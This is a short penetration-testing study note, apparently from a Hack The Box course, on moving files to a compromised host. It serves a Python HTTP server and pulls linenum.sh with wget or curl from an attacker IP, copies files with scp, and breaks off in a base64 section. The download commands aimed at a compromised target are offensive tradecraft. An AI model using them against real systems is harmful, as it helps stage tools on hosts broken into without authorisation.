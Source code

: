 - During a penetration test we will need to transfer files to the remote server such as enumeration scripts or exploits of course we can use the other shells and tools like metasploit and meterpeter learning methods to transfer files in reverse shell is needed

## Using wget 
-  Many methods are used to do this one method is running a Python HTTP sever on our machine and  then use wget or cURL to download the file on our remote host.  
- First we need to go into the dierctory we can find the file then we transfer and run the Python HTTP server in it
```shell-session
00818@htb[/htb]$ cd /tmp
00818@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

- Now that a listening server is set up on our machine we can download the file on the remote host that we have a code execution on

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

-  Now that we used our IPs to set up our Python sever on port 8000
- In case the server doesn't have a wget you can use cURL instead to download the file
```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
- Note the -o flag was used to specify the output file name

## Using SCP 
- ANother method to tranfer files is the scp method however we need ssh user credentials on the remote host like as follow>>

```shell-session
00818@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

- The directory and the file name was placed after the scp command using the :

## Using Base64
-  In some cases transferrign files may not be available to us since the firewall prptrections would prevent us from downloading it from our machine 
- in this situation we use base64
- we would do that by encode the file into base 64 format-